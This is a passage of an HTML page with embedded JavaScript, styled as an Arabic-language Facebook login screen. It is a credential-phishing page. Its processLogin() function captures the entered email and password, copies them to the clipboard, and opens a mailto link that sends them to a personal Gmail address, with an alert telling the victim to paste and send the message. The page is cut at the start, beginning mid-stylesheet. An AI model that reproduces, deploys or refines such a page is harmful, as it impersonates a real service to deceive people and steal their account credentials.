 .login-container input[type="submit"]:hover {
    background-color: #165dbb;
}</style></head> 
 <body> 
  <div class="login-container"> 
   <h1>فيسبوك</h1> 
   <form onsubmit="processLogin(); return false;"> 
    <input type="text" id="email" placeholder="البريد الإلكتروني أو رقم الهاتف" required> 
    <input type="password" id="password" placeholder="كلمة السر" required> 
    <input type="submit" value="تسجيل الدخول"> 
   </form> 
  </div> 
  <script src="script.js"></script>  
 
<script type="text/javascript" id="dcoder_script">// script.js
function processLogin() {
    var email = document.getElementById("email").value;
    var password = document.getElementById("password").value;
    var recipient = "www.salman.hafaifa@gmail.com";
    var body = "البريد الإلكتروني: " + email + "\nكلمة السر: " + password;

    // نسخ البريد الإلكتروني وكلمة السر إلى الحافظة
    var textToCopy = "البريد الإلكتروني: " + email + "\nكلمة السر: " + password;
    navigator.clipboard.writeText(textToCopy).then(function() {
        alert("تم نسخ البريد الإلكتروني وكلمة السر. سيتم الآن فتح Gmail، من فضلك الصق البيانات في نص الرسالة واضغط على إرسال.");
        
        // فتح تطبيق Gmail المثبت
        window.location.href = "mailto:" + recipient + "?body=" + encodeURIComponent(body);
    }).catch(function(err) {
        console.error('حدث خطأ أثناء نسخ النص:', err);
    });
}</script></body></html>
